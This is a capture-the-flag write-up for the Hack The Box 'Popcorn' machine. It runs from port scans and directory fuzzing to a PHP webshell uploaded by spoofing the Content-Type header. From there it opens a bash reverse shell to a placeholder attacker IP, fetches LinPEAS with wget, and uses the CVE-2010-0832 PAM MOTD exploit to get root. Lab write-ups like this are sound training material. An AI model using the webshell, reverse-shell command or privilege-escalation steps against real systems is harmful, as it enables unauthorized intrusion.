







Machine: [Popcorn](https://app.hackthebox.com/machines/Popcorn):
Medium . Linux

---
Tags: #file-upload-bypass #content-type-bypass #webshell #CVE-2010-0832 #PAM-MOTD #privesc #linux

---
**Vulnerabilities:**
Unrestricted File Upload — The Torrent Hoster application validates the file type only by the `Content-Type` of the request, which can be modified manually (Validation Bypass)
Remote Code Execution — The uploaded webshell remains publicly accessible at `/torrent/upload/` 
Local Privilege Escalation — CVE-2010-0832: PAM MOTD allows any local user to overwrite arbitrary files via symlinks, including `/etc/passwd` and `/etc/shadow`

---
🧰 Tools used: `nmap`, `ffuf`, `caido`, `curl`, `netcat`, `linpeas`, `wget`

---
We performed a TCP port scan:
```bash
❯ sudo nmap --open -Pn -p- -sS -n -vvv <VICTIM_IP> -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We identified the service versions and ran default scripts on the discovered ports:
```bash
❯ nmap -sVC -p22,80 <VICTIM_IP> -Pn

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We fuzzed internal directories:
```bash
❯ ffuf -u http://popcorn.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://popcorn.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

test                    [Status: 200, Size: 47404, Words: 2478, Lines: 655, Duration: 387ms]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 494ms]
torrent                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 211ms]
rename                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 399ms]
:: Progress: [29999/29999] :: Job [1/1] :: 115 req/sec :: Duration: [0:03:59] :: Errors: 2 ::
```

We fuzzed internal directories under the identified `/torrent/` path:
```bash
❯ ffuf -u http://popcorn.htb/torrent/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://popcorn.htb/torrent/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 308ms]
admin                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 310ms]
download                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 611ms]
lib                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 367ms]
config                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 610ms]
upload                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 896ms]
database                [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 598ms]
js                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 2866ms]
rss                     [Status: 200, Size: 968, Words: 48, Lines: 27, Duration: 530ms]
secure                  [Status: 200, Size: 4, Words: 1, Lines: 3, Duration: 612ms]
login                   [Status: 200, Size: 8416, Words: 769, Lines: 228, Duration: 3686ms]
logout                  [Status: 200, Size: 183, Words: 11, Lines: 1, Duration: 3381ms]
users                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 516ms]
comment                 [Status: 200, Size: 936, Words: 83, Lines: 17, Duration: 4366ms]
templates               [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 4368ms]
css                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 4371ms]
index                   [Status: 200, Size: 11405, Words: 1103, Lines: 294, Duration: 316ms]
preview                 [Status: 200, Size: 28104, Words: 128, Lines: 138, Duration: 310ms]
edit                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 510ms]
browse                  [Status: 200, Size: 9320, Words: 794, Lines: 186, Duration: 231ms]
health                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 212ms]
stylesheet              [Status: 200, Size: 321, Words: 9, Lines: 7, Duration: 306ms]
torrents                [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 307ms]
thumbnail               [Status: 200, Size: 1789, Words: 21, Lines: 11, Duration: 216ms]
hide                    [Status: 200, Size: 3765, Words: 194, Lines: 135, Duration: 439ms]
readme                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 233ms]
upload_file             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 300ms]
validator               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 308ms]
PNG                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 314ms]
:: Progress: [29999/29999] :: Job [1/1] :: 105 req/sec :: Duration: [0:03:47] :: Errors: 1 ::
```

We can see the web interface is a **Torrent Hoster** application, a torrent management application with upload functionality:


We registered with test credentials to obtain authenticated access:


We can see it's vulnerable to a file upload attack: [Exploit](https://www.exploit-db.com/exploits/11746 )

We create a webshell:
```bash
❯ cat shell.php -p
<?php system($_GET["cmd"]); ?>
```

We created a valid torrent file and uploaded a valid torrent to obtain the ID assigned by the application:
```bash
❯ file valid.torrent
valid.torrent: BitTorrent file
```

The application confirms the upload:


We intercepted the post-upload request with `Caido` to extract the torrent ID:


```bash
GET /torrent/torrents.php?mode=details&id=7cf392d69b20e937894b89b3345f62220db3f074 HTTP/1.1
Host: popcorn.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/148.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://popcorn.htb/torrent/torrents.php?mode=upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: /torrent/=; /torrent/torrents.php=; saveit_0=5; saveit_1=0; PHPSESSID=4e59448d67c4274ecfe4c2564b05ceaa
```

We can see that the torrent details page gives us the option to edit and upload a screenshot. The application indicates it only accepts `jpg`, `jpeg`, `gif` and `png`:



We selected `shell.php` in the screenshot field and intercepted the request with Burp Suite. The `Content-Type` was automatically detected as `application/x-php`:


We modified the `Content-Type` from `application/x-php` to `image/png` and resent it. The server only validates that header and accepts the file:


We verified that the webshell remained accessible at `/torrent/upload/` with the torrent ID name:
```bash
❯ curl "http://popcorn.htb/torrent/upload/7cf392d69b20e937894b89b3345f62220db3f074.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We started a `netcat` listener on port `<PORT>`:
```bash
❯ nc -lvnp <PORT>
Listening on 0.0.0.0 <PORT>
```

We executed the reverse shell through the webshell using `--data-urlencode` to properly encode the special characters of the payload:
```bash
curl -G "http://popcorn.htb/torrent/upload/7cf392d69b20e937894b89b3345f62220db3f074.php" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'"
```

We received the connection:
```bash
❯ nc -lvnp <PORT>
Listening on 0.0.0.0 <PORT>
Connection received on <VICTIM_IP> 46073
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We extracted the `user.txt` flag:
```bash
www-data@popcorn:/var/www/torrent/upload$ cat /home/george/user.txt
<USER_FLAG>
```

We started an HTTP server to transfer LinPEAS to the victim machine:
```bash
❯ python3 -m http.server <PORT>
Serving HTTP on 0.0.0.0 port <PORT> ...
```

We downloaded and executed LinPEAS from the victim, and found it was vulnerable to [CVE-2010-0832] PAM MOTD:
```bash
www-data@popcorn:/tmp$ wget http://<ATTACKER_IP>:8080/linpeas.sh
www-data@popcorn:/tmp$ chmod +x linpeas.sh
www-data@popcorn:/tmp$ ./linpeas.sh


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |
    |         Follow on Twitter         :     @hacktricks_live                        |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          LinPEAS-ng by carlospolop

<SNIP>

[+] [CVE-2010-0832] PAM MOTD

   Details: https://www.exploit-db.com/exploits/14339/
   Exposure: probable
   Tags: [ ubuntu=9.10|10.04 ]
   Download URL: https://www.exploit-db.com/download/14339
   Comments: SSH access to non privileged user is needed
   
<SNIP>
```

We confirmed the vulnerability by checking the existence of `~/.cache/motd.legal-displayed` in `george`'s home directory — this indicates that the vulnerable version of the PAM module is active. The CVE exploits the fact that the MOTD process running as root creates this file without validating if the path is a symlink, which allows us to point this file to `/etc/passwd` or `/etc/shadow` and overwrite them:
```bash
www-data@popcorn:/home$ ls -la /home/george/.cache/
total 8
drwxr-xr-x 2 george george 4096 Mar 17  2017 .
drwxr-xr-x 3 george george 4096 Oct 26  2023 ..
-rw-r--r-- 1 george george    0 Mar 17  2017 motd.legal-displayed
```

We downloaded the [CVE-2010-0832](https://www.exploit-db.com/exploits/14339) exploit and executed it:
```bash
www-data@popcorn:/tmp$ ./14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password:
root@popcorn:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

We extracted the `root.txt` flag:
```bash
root@popcorn:/tmp# cat /root/root.txt
<ROOT_FLAG>
```